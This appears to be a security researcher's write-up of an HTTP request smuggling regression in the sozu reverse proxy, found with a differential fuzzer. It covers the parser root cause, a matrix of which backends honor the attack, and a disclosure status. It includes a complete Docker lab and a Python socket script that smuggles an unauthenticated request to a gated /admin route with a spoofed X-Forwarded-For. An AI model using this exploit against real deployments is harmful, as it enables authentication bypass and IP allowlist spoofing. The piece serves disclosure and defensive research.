





## the thing that bugged me

I want to start with the failure, because the failure is the whole reason this exists.

I had spent about a week pointing an evolutionary HTTP fuzzer at eight reverse proxies. HAProxy, nginx, Caddy, Envoy, Apache Traffic Server, sozu, OpenLiteSpeed, Apache httpd. The target class was request smuggling in the HTTP/3 and HTTP/2 to HTTP/1.1 downgrade, the part where a proxy takes a modern framed request and re-serializes it as HTTP/1.1 for an origin that only speaks 1.1. Every run came back clean.



The oracle was positive controlled. The sentinels fired on a known-vulnerable build. The labs were real Docker with real backends, not mocks. And the answer, every time, was one request framed, nothing smuggled. Eight stacks, weeks of compute, a clean sheet.

The bug was in my capture logs the whole time. I had built the test so it could never see it.

That sentence is the post. Everything below is how I got there and what fell out of it.

---

## the oracle that could not fail

Before the good part, the discipline, because it is where the trap was hiding.

A smuggling oracle is a counter. You fire one request at the front, and you count how many requests the backend framed out of it. One is benign. Two or more is a smuggle. The whole apparatus is trustworthy only if you can make it say two on demand, so every run started with a sentinel: a plainly pipelined pair of requests that a correct backend must frame as two. If the sentinel does not light up, the oracle is blind and every clean result is noise. I had been burned by silent oracles before, so this was non-negotiable.

The backend I used to count was a small server that read the request headers, then read exactly `Content-Length` body bytes, logged the request line, responded, and looped. Clean, deterministic, and it framed the pipelined sentinel as two every time. It looked like a perfect oracle.

It was a perfect oracle for exactly one class of bug and blind to the one I was hunting. It framed everything by `Content-Length`. If a front forwarded a request that framed differently under `Transfer-Encoding`, my counter read it by `Content-Length`, agreed with whatever the front intended, and logged one. The sentinel proved the counter could reach two. It did not prove the counter could reach two for the bug I cared about. Those are different guarantees, and I had conflated them.

I found this the slow way. An earlier HTTP/2 poisoning oracle I built never once fired a true positive across a full run, and I nearly filed that as "the H2 path is clean." Then I injected a known-good poisoning payload by hand and watched it stay silent. The oracle was structurally incapable of seeing the thing. A negative from an instrument you have not proven can produce a positive on the exact bug is not evidence of absence. It is an untested instrument. Write that on the wall.

---

## what already exists, and why the method is not mine

I did the homework before I wrote a word about methodology, because the worst outcome in this genre is dressing up a known technique as a discovery. The differential-fuzzing-for-smuggling space is not empty. It is well tilled, and two papers own the ground I was standing on.

- **T-Reqs** (Jabiyev et al., CCS 2021) is the grammar-based differential HTTP fuzzer. They generated mutated requests, ran ten server, proxy and CDN technologies in pairs, and found the pairs that disagree on message boundaries. Panel-pair differential fuzzing for HRS is theirs.
- **The HTTP Garden** (2024) is the one that should have saved me a week. Its whole thesis, in the abstract, is that not all parsing-discrepancy vulnerabilities are visible from a gateway's output alone, so you have to examine how the origin interprets the bytes too. That is exactly the mistake I was about to make, written down and published two years before I made it.

So the method here is not new, and what I did wrong is a re-derivation of the HTTP Garden's central point. The trigger I ended up with is older still. I am flagging both up front so the rest of the post keeps its credibility. The value is one specific, current, unpatched implementation bug, a honest walk to it, and one small thesis at the end. Not a technique.

The fuzzer is called Phage. The name carries the lesson, so let me use it.

---

## the host it could not infect

A bacteriophage does not infect life in general. It infects one host, sometimes one strain, because the fit between the phage tail fiber and the host's surface receptor is specific. Wrong pair, nothing happens. The virus bounces off and drifts away.

A request smuggling vector has the same shape. It is not a property of a proxy. It is a property of a pair: a front that draws the message boundary one way, and a back that draws it another. The bug lives in the disagreement, not in either parser alone. CWE-444 even says so in its name, inconsistent interpretation.

I varied the front eight ways and held the back fixed at one immune host.



Eight fronts, one host. If a front emitted a message that only a different kind of backend would misread, my one backend read it the way the front intended, the two agreed, and the counter said one. I had a panel and I told myself it was diverse. It was diverse on the one axis that could not produce a hit.

---

## grepping my own logs

I stopped fuzzing and did the least clever thing available. I wrote a twenty-line parser and walked every byte my fronts had already forwarded to the backend across all those clean runs, looking only for framing ambiguity: both `Content-Length` and `Transfer-Encoding` on one request, a chunk size that did not match, a duplicate header. One hit came back, from sozu:

```
AAAAGET /admin HTTP/1.1
Host: lab
Content-Length: 40
Transfer-Encoding: chunked, identity
X-Forwarded-For: 172.46.0.1
Sozu-Id: 01KX...

0

GET /smuggled HTTP/1.1
Host: x
```

Two framing headers on one request. sozu had added its own `Sozu-Id`, so this was sozu's output, not my input echoed back. And the smuggled `GET /smuggled` that followed carried no `Sozu-Id`, which meant sozu never parsed it as a request. sozu framed the whole thing by `Content-Length`, swallowed the trailing bytes as an opaque body, and forwarded the `Transfer-Encoding` header along with them, untouched.

```
              what sozu sees                 what a TE-honoring backend sees
        +-----------------------+           +-----------------------+
        | GET /admin            |           | GET /admin (empty body)|
        | CL: 40  -> read 40 B  |           | TE: chunked -> 0-chunk |
        | body = 0\r\n\r\n      |           +-----------------------+
        |        GET /smuggled  |           | GET /smuggled          |  <-- second request
        +-----------------------+           +-----------------------+
              1 request                            2 requests
```

My strict backend also framed by `Content-Length`, agreed with sozu, and the smuggle stayed invisible. A backend that honors the `Transfer-Encoding` would split it in two. I added one Go `net/http` backend to the panel and the whole thing lit up on the first request.

---

## the trigger is old, the bug is back

The value sozu choked on is `Transfer-Encoding: chunked` with a trailing tab. Send that plus a `Content-Length`, and sozu does not recognize the tab-suffixed token as chunked, so it frames by `Content-Length` and forwards both headers. Go trims the trailing tab, sees `chunked`, frames by `Transfer-Encoding`, reads the empty terminating chunk, and treats the bytes after it as a fresh request.



Here is the part that made me laugh and then wince. This exact trigger is in sozu's own issue tracker, #726, reported in 2021 out of a BuckeyeCTF challenge. It was fixed then by a patch that trimmed linear whitespace from the header value. Then sozu 2.0 rewrote its HTTP layer onto a parser crate called kawa, and the trim did not come along. The fix regressed.

The root cause is four lines in kawa's HTTP/1 parser:

```rust
const CHUNKED: &[u8] = b"chunked";
if val.len() >= CHUNKED.len()
    && compare_no_case(&val[val.len() - CHUNKED.len()..], CHUNKED)
{ /* elide content-length, frame as chunked */ }
```

It checks whether the last seven bytes equal `chunked`. No trailing-whitespace trim, no handling of a transfer-parameter like `chunked;a=b`, no check that chunked is the final coding in a list. When the check fails it keeps `Content-Length` and never strips the `Transfer-Encoding` it did not understand, so both go out. RFC 9112 section 6.1 says an intermediary must not forward both.

And the reason nobody caught the regression: sozu's own smuggling test sends a well-formed `Transfer-Encoding: chunked`, which passes the suffix check and is handled correctly. The test never sends a malformed value, so the regression landed exactly in the blind spot of the test written to prevent it. I confirmed it on the latest tagged release, 2.1.0, and on current `main`, 2.1.1, over a plain HTTP frontend and a TLS-terminating one, since the parser runs after the TLS decrypt.

---

## how far it actually goes

The primitive is clean: I can deliver a request to the backend that sozu never parsed, routed, filtered, or logged. What that is worth depends on what the backend trusts. The strongest thing I could demonstrate end to end is an authentication bypass, and it needed a feature sozu did not have in 2021.

sozu 2.x added per-frontend HTTP Basic auth. So I set up two frontends on one backend cluster: `/public` open, `/admin` gated. A direct `GET /admin/secret` returns 401.



The run, verbatim, the controls first so the gate is real:

```
== controls ==
  direct GET /admin/secret (no creds)   -> HTTP/1.1 401 Unauthorized
  direct GET /admin/secret (with creds) -> HTTP/1.1 200 OK
== exploit (unauthenticated) ==
  REQ GET /public/x     auth="" xff="172.63.0.1" te=[chunked]
  REQ GET /admin/secret auth="" xff="6.6.6.6"                  <- smuggled, no auth
  REQ GET /public/y     auth="" xff="172.63.0.1"
== negative control: same bytes, Transfer-Encoding removed ==
  /admin/secret leaked in control: False
  RESULT: AUTH BYPASS REPRODUCED
```

Drop the one `Transfer-Encoding` header and the whole thing collapses to two boring public requests. That negative control is the finding. The precondition rides with the severity and I will not bury it: this needs auth on one route while an attacker-reachable route shares the backend. Gate the whole frontend and the carrier itself needs auth, and the bypass dies. High, conditional on topology, not a flat high. CVSS 7.5, `AV:N/AC:H/PR:N/UI:N/S:C/C:H/I:L`.

Note the `xff="6.6.6.6"` on the smuggled line. sozu appends the real client IP to `X-Forwarded-For` on requests it parses. It never parsed this one, so the backend gets an attacker-chosen client IP, clean. Any XFF allowlist behind sozu is spoofable through the same door.

---

## the walls I hit

This is the honest half, the part where the impact stops. I wanted cross-user, the version that would make it critical, and I could not get there. I want to show the walls because the walls are the finding too.

**Response-queue poisoning: negative.** After sozu framed the attack by CL and read one response, the backend had a second response queued (for the smuggled request). If sozu pooled that connection for another client, the next victim would read the stale response. I fired the attack, then a victim on a separate connection. The victim got its own response. Clean.

**Dangling-request capture: negative.** I tried the sharper version: a smuggled request with an incomplete body, so the backend holds the connection waiting and captures the next victim's bytes. Same result. The victim landed on a fresh backend connection.

Both failed for the same reason, and I confirmed it twice, once by watching source ports and once by reading the source:



sozu binds one backend connection per client connection. Four separate clients get four backend ports; a poisoned connection is the attacker's own, closed when they leave. The response read-back in the auth bypass works only because it is the attacker reading over their own connection. That one-to-one model is a genuinely good design choice, and I am not going to pretend it away because a bigger number would read better.

The last escape hatch was a shared cache: poison a cache entry once, serve it to everyone, no connection reuse needed. So I ran a cache-and-proxy honor matrix. The two caches people actually deploy shut the door:

```
nginx proxy_cache   chunked<TAB>+CL  -> 501, rejected. dead.
Varnish             chunked<TAB>+CL  -> 400, rejected. dead.
HAProxy / Apache    chunked<TAB>+CL  -> de-chunk but neutralize, single request. dead.
Caddy / Traefik / Souin (Go net/http inbound) -> honor + forward a laundered smuggle.
```

Only Go-based caches honor it, and I did not choreograph the full store-and-serve. So the cross-user path is alive by mechanism on a narrow, Go-flavored slice of the world and dead on the common one. Real, demonstrable, high-conditional, honestly not critical.

---

## the honor matrix

Which backend makes the pair fire is the actual reference contribution here, so here is the whole matrix. Every cell is an isolated Docker lab with a positive control (plain chunked smuggles) and a negative control (CL-only frames one). SMUGGLE means it de-chunks and keeps the connection alive so the second request frames.

| backend (parser) | `chunked` | `chunked<TAB>` | `chunked ` | `chunked;a=b` | `chunked, identity` |
|---|---|---|---|---|---|
| Go net/http | SMUGGLE | SMUGGLE | SMUGGLE | reject 501 | reject 501 |
| Puma (C parser) | SMUGGLE | SMUGGLE | SMUGGLE | reject | reject |
| uvicorn `--http h11` | SMUGGLE | SMUGGLE | SMUGGLE | reject | reject |
| Hypercorn (h11) | SMUGGLE | SMUGGLE | SMUGGLE | reject | reject |
| Werkzeug (dev) | de-chunk, no keep-alive | de-chunk | de-chunk | CL-safe | de-chunk |
| Unicorn | de-chunk, no keep-alive | de-chunk | de-chunk | CL-safe | reject |
| Tomcat (Coyote) | CL-safe | CL-safe | CL-safe | reject | reject |
| uvicorn `--http httptools` | reject 400 | reject 400 | reject 400 | reject | reject |
| gunicorn (sync, gthread) | reject | reject | reject | reject | reject |
| uWSGI, Thin, WEBrick, wsgiref | CL-safe | CL-safe | CL-safe | CL-safe | CL-safe |
| Jetty, Undertow | reject | reject | reject | reject | reject |
| Node 18 / 22 (llhttp) | reject | reject | reject | reject | reject |

Four production stacks are live behind sozu on the trailing-whitespace variants: Go, Puma, h11, Hypercorn. The exotic obfuscations that sozu also forwards (`chunked;a=b`, `chunked, identity`) are honored by nobody in production, only Werkzeug's dev server, and it closes the connection so it does not pool. That last row matters for the fix: trimming the tab is not enough, because the class is wider than the tab, but the exploitable slice today is the trailing-whitespace column.

---

## the parser is the unit, not the product

Look at the two uvicorn rows. Same server, same version. It smuggles under `--http h11` and is safe under its default `--http httptools`. One flag flips the verdict.

We track HTTP security by product and version. An advisory says it affects nginx 1.2 through 1.4. That granularity is wrong. The security boundary is the parser, and one product ships several. h11 and httptools are two Python packages doing the same job with opposite answers, and no advisory database has a column for which one you loaded. If you run an ASGI app, the honest answer to "am I exposed to this class" is not which server you run, it is which parser flag you passed, and most people cannot tell you.

That is the part I would keep if the sozu bug got patched tomorrow. Audit parsers, not products.

---

## handing it back to the fuzzer

A finding a human dug out by hand is only half a tool result, so I gave it back to Phage. I added the tab-suffixed `Transfer-Encoding` to the mutation gene pool and the Go backend to the panel, and let the engine run its own mutations against the live pair.

The first attempt found nothing. A blind search over the full 34-operator set is too sparse to assemble a three-part payload, the framing header plus the empty-chunk body plus the smuggled request, before other operators corrupt one of the pieces. Sixty single mutations from a smuggle-shaped seed produced zero hits, which is exactly what the arithmetic predicts: one operator in thirty-four, and only two of its six variants actually split the pair.

So I ran it as a targeted campaign, biasing the mutation prior toward the two framing genes, which is how you hunt a known class rather than a novelty. From a smuggle-shaped seed it evaluated 150 genomes and its differential oracle flagged two, whose triggering values were exactly `chunked` with a trailing tab and `chunked` with a trailing space, and cleared the obfuscations that get rejected. The tool rediscovered the bug I had found by hand.

The honest note: the engine did the discrimination, which is the part that matters. It is the difference between a fuzzer that emits `chunked\t` and a fuzzer that can tell you `chunked\t` splits sozu from Go while `chunked;a=b` does not. The blind-search sparsity is a real limit and I am not hiding it behind the campaign number.

---

## the lab fought back

One field note, because it is the kind of thing that never makes it into a clean writeup and always eats an hour. Midway through validating the final packaged PoC, my Docker daemon's containerd content store corrupted itself: `blob ... operation not permitted`, on read, as root, for a blob that plainly existed. Restarts did nothing, because a restart does not fix a permission or consistency fault in the content store. It was self-inflicted, an interrupted `docker pull` racing an `rmi` that left the store inconsistent. The fix was to clear the stuck ingest and normalize the store permissions, not to wipe every image. I mention it only because "run it on a clean target" assumes the target stays clean, and a lab that has been abused for a week is not a clean target. Validate the exact shipped steps from a fresh unzip, on a machine that can actually run them, or say plainly that you could not.

---

## reproduce it

I kept the lab to three files so you do not have to trust my screenshots. It is the real thing: the official `clevercloud/sozu:latest` image, a two-frontend auth topology, and a Go origin that logs what it actually framed. Two commands and you watch a 401 turn into a 200.

The topology, `docker-compose.yml`:

```yaml
services:
  backend:
    image: golang:1.23-alpine
    working_dir: /app
    volumes:
      - ./be_go.go:/app/be_go.go:ro
      - ./logs:/logs
    command: sh -c "cp /app/be_go.go /tmp/be_go.go && go run /tmp/be_go.go"
    networks: { net: { ipv4_address: 172.63.0.10 } }
  sozu:
    image: clevercloud/sozu:latest
    depends_on: [backend]
    ports: [ "127.0.0.1:9200:9200/tcp" ]
    volumes:
      - ./sozu.toml:/etc/sozu/sozu.toml:ro
    command: ["start", "-c", "/etc/sozu/sozu.toml"]
    networks: { net: { ipv4_address: 172.63.0.12 } }
networks:
  net: { ipam: { config: [ { subnet: 172.63.0.0/24 } ] } }
```

The sozu config, `sozu.toml`. This is the whole precondition in nine lines: two frontends on the same host, one open, one gated, both pointing at the same backend. The hash is `admin:secret`, generated the way the sozu docs tell you to, `printf 'secret' | sha256sum`:

```toml
[[listeners]]
protocol = "http"
address = "0.0.0.0:9200"

[clusters.C]
protocol = "http"
load_balancing = "ROUND_ROBIN"
www_authenticate = 'Basic realm="admin"'
authorized_hashes = [ "admin:2bb80d537b1da3e38bd30361aa855686bde0eacd7162fef6a25fe97bf527a25b" ]
frontends = [
    { address = "0.0.0.0:9200", hostname = "lab", path = "/public", path_type = "PREFIX" },
    { address = "0.0.0.0:9200", hostname = "lab", path = "/admin", path_type = "PREFIX", required_auth = true },
]
backends = [ { address = "172.63.0.10:8080", backend_id = "b1" } ]
```

The origin, `be_go.go`. The only thing that matters here is that Go's `net/http` trims the trailing whitespace and de-chunks, so it disagrees with sozu. It logs the `Authorization` header it saw, which is the whole point:

```go
package main

import ( "fmt"; "io"; "net/http"; "os" )

func logline(s string) {
	f, _ := os.OpenFile("/logs/backend.log", os.O_APPEND|os.O_CREATE|os.O_WRONLY, 0644)
	if f != nil { f.WriteString(s + "\n"); f.Close() }
}

func main() {
	http.HandleFunc("/", func(w http.ResponseWriter, r *http.Request) {
		b, _ := io.ReadAll(r.Body)
		logline(fmt.Sprintf("REQ %s %s auth=%q xff=%q te=%v bodylen=%d",
			r.Method, r.URL.Path, r.Header.Get("Authorization"),
			r.Header.Get("X-Forwarded-For"), r.TransferEncoding, len(b)))
		w.Header().Set("Content-Length", fmt.Sprint(len("RESP-FOR:"+r.URL.Path+"\n")))
		io.WriteString(w, "RESP-FOR:"+r.URL.Path+"\n")
	})
	http.ListenAndServe("0.0.0.0:8080", nil)
}
```

Bring it up (the Go backend compiles on the first run, so give it a moment):

```
docker compose up -d
until [ "$(curl -s -o /dev/null -w '%{http_code}' -H 'Host: lab' http://127.0.0.1:9200/public/x)" = "200" ]; do sleep 2; done
```

Now the one request that does it, no harness, just a socket. An unauthenticated carrier to `/public` with the gated request smuggled in its body, then a follow-up on the same connection to read the answer back:

```python
import socket
smug = b"GET /admin/secret HTTP/1.1\r\nHost: lab\r\nX-Forwarded-For: 6.6.6.6\r\n\r\n"
body = b"0\r\n\r\n" + smug
req  = (b"GET /public/x HTTP/1.1\r\nHost: lab\r\n"
        b"Content-Length: %d\r\nTransfer-Encoding: chunked\t\r\n\r\n" % len(body)) + body
s = socket.create_connection(("127.0.0.1", 9200), timeout=5)
s.sendall(req + b"GET /public/y HTTP/1.1\r\nHost: lab\r\nConnection: close\r\n\r\n")
s.settimeout(2)
try:
    while s.recv(4096): pass
except OSError: pass
s.close()
print(open("logs/backend.log").read())
```

The backend log prints `REQ GET /admin/secret ... auth=""`. sozu framed one request; the origin framed two; the second one is the gated endpoint arriving with no `Authorization` and an attacker-chosen `X-Forwarded-For`. Delete the single `Transfer-Encoding: chunked\t` line and the `/admin/secret` line vanishes. That is the whole bug in one diff.

The fuzzer itself and the eight-stack HTTP/3 and HTTP/2 downgrade panel I started from are in the [Phage repo](https://github.com/UncleJ4ck/Phage). The sozu CL.TE lab above is the specific pair this post is about; the panel labs there are the general net I was dragging when I found it.

## where it stands

Reported privately to CleverCloud as a regression of #726, with the ask to fix it at the class, not the trigger. The defect is forwarding both `Content-Length` and `Transfer-Encoding` at all. Trim the tab and `chunked, identity` still slips through, and Werkzeug honors that one. The fix is to reject or normalize whenever a `Transfer-Encoding` is present but does not resolve to a valid final `chunked`, never to fall back to `Content-Length` and forward the header you did not understand.

No new technique. The trigger is from 2019, the bug is a regression of a 2021 report, and the method belongs to the two papers I cited up top. What was worth the week is smaller and more useful: a differential is only as strong as the diversity on both sides of it, one immune host makes every attacker look harmless, the honor matrix says the vulnerable unit is the parser and not the product, and the moment I added a host that disagrees, a request that had sat in my logs for days became an auth bypass. This post goes up after the fix.

## references

- [T-Reqs: HTTP Request Smuggling with Differential Fuzzing](https://dl.acm.org/doi/10.1145/3460120.3485384) (CCS 2021)
- [The HTTP Garden](https://arxiv.org/abs/2405.17737) (2024)
- [PortSwigger: HTTP request smuggling](https://portswigger.net/web-security/request-smuggling)
- sozu-proxy/sozu issue #726 (2021)
- RFC 9112 section 6.1 (Transfer-Encoding and Content-Length)
